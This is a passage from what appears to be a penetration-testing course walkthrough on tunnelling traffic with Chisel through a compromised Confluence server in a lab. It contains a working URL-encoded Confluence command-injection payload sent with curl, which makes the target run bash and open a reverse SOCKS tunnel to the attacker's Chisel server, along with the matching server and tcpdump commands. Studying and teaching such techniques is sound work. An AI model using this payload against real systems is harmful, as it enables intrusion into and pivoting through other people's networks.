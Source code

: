 Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the **server** subcommand, along with the bind port (**\--port**) and the **\--reverse** flag to allow the reverse port forward.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

> Listing 6 - Starting the Chisel server on port 8080.

The Chisel server starts up and confirms that it is listening on port 8080 and has reverse tunneling enabled.

Before we try to run the Chisel client, we'll run **tcpdump** on our Kali machine to log incoming traffic. We'll start the capture filtering to **tcp port 8080** to only capture traffic on TCP port 8080.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

> Listing 7 - Starting tcpdump to listen on TCP/8080 through the tun0 interface.

Next, we'll try to start the Chisel client using the injection, applying the server address and the port forwarding configuration options on the command line.

We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**). The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default). The remaining shell redirections (**\> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish.

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

> Listing 8 - The Chisel client command we run from the web shell.

We'll convert this into a Confluence injection payload and send it to CONFLUENCE01.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

> Listing 9 - Starting the Chisel client using the Confluence injection payload.

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.

This indicates there may be something wrong with the way we're running the Chisel client process on CONFLUENCE01. However, we don't have direct access to the error output when running the binary. We need to figure out a way to read the command output, which may be able to point us towards the problem. We should then be able to solve it.
